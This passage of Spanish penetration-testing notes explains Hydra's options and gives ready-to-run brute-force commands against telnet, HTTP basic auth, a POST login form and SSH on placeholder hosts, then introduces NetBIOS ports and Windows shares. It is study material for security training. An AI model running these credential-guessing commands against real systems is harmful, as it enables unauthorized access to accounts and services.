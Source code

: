 Comando:

`hydra [option]`

```
-h: Ayuda
-U [module]: Obtener el detalle de un módulo. Estos módulos se encuentran en la sección “Supported services” de la ayuda
-L: Lista de usuarios
-P: Lista de passwords
-f: Detener la busqueda con el primer resultado
-V: Verbose
http-post-form: Usar formulario POST
http-get: Usar método GET
```

<h4 id="hydra-2">Ejemplo de obtención de detalle de módulo RDP</h4>

`hydra -U rdp`

<h4 id="hydra-3">Ejemplo cracking telnet con ataque de diccionario</h4>

`hydra -L user.txt -P pass.txt telnet://target.server`

<h4 id="hydra-4">Ejemplo de ataque de autenticación HTTP básica</h4>

`hydra -L user.txt -P pass.txt http-get://target.server`

<h4 id="hydra-5">Ejemplo de ataque de autenticación HTTP en login usando POST</h4>

`hydra target.site http-post-form “/login.php:usr=^USER^&pwd=^PASS^:invalid credentials” -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/rockyou-15.txt -f -V`

<h4 id="hydra-6">Ejemplo de ataque de autenticación SSH</h4>

`hydra target.site ssh -L user.txt -P pass.txt -f -V`

<h2 id="windows-shares">Windows Shares</h2>

<h3 id="netbios">NetBIOS</h3>

NetBIOS (Network Basic input Output System) es un protocolo que permite compartir archivos, administración de impresoras, proveer autenticación, etc., entre un cliente y un servidor.

Este protocolo puede proveer lo siguiente:

-	Hostname
-	NetBIOS name
-	Dominio
-	Network shares

Utiliza los siguientes puertos:

-	**UDP 137:** NetBIOS names. Usado para encontrar grupos de trabajo (workgroups).
-	**UDP 138:** NetBIOS datagrams. Usado para listar los shares y las máquinas.
-	**TCP 139:** NetBIOS Session. Usado para transmitir datos para y desde un Windows share.

Un Windows puede compartir un archivo o un directorio en la red (shares).

Se puede acceder mediante un UNC (Universal Naming Convertion) Path. Ejemplo: **\\\ServerName\ShareName\file.txt**
